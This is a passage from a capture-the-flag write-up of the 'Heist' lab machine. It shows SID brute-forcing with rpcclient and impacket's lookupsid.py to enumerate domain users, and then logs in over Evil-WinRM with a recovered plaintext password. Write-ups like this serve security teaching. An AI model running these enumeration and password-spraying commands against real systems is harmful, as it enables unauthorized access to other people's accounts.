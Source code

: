 

    root@kali# rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c 'lookupsids S-1-5-21-4254423774-1266059056-3197185112-1000'
    S-1-5-21-4254423774-1266059056-3197185112-1000 *unknown*\*unknown* (8)



I'll start at 1000 and work up to 1050, using `grep` to remove the
unknowns:



    root@kali# for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
    S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
    S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
    S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
    S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)



There's also an impacket tool, `lookupsids.py`, which does this faster
and cleaner:



    root@kali# lookupsid.py hazard:stealth1agent@10.10.10.149
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [*] Brute forcing SIDs at 10.10.10.149
    [*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
    [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
    500: SUPPORTDESK\Administrator (SidTypeUser)
    501: SUPPORTDESK\Guest (SidTypeUser)
    503: SUPPORTDESK\DefaultAccount (SidTypeUser)
    504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
    513: SUPPORTDESK\None (SidTypeGroup)
    1008: SUPPORTDESK\Hazard (SidTypeUser)
    1009: SUPPORTDESK\support (SidTypeUser)
    1012: SUPPORTDESK\Chase (SidTypeUser)
    1013: SUPPORTDESK\Jason (SidTypeUser)



## Shell as chase

### Manually

When I originally solved Heist, I took these new user names and my list
of passwords, and I used
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) to try
connecting as each with different passwords. When I got to chase /
'Q4)sJu\\Y8qz\*A3?d', it connected:



    root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -s ~/pshs/ -p 'Q4)sJu\Y8qz*A3?d'
